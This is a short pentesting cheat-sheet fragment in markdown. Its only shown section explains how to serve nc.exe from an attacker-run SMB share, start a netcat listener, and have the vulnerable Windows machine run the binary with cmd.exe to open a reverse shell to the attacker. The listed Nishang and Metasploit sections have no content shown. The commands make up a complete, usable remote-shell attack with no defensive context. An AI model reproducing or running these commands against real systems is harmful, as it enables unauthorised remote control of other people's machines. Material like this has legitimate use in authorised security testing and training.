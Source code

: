 - [SMB and netcat](#Netcat)
- [Nishang](#Nishang)
- [Metasploit](#Metasploit)

# Netcat
- On your local machine run smb server
```
mkdir smb; cd smb; cp /usr/share/windows-resources/binaries/nc.exe .;cd ..
```
- Run SMB server and netcat listener
```
smbserver.py share smb

nc -lnvp <your port>
```
 On vulnerable app
 ```
 \\<your_local_ip>\share\nc.exe -e cmd.exe <your_local_ip> <your_local_port>
 ```

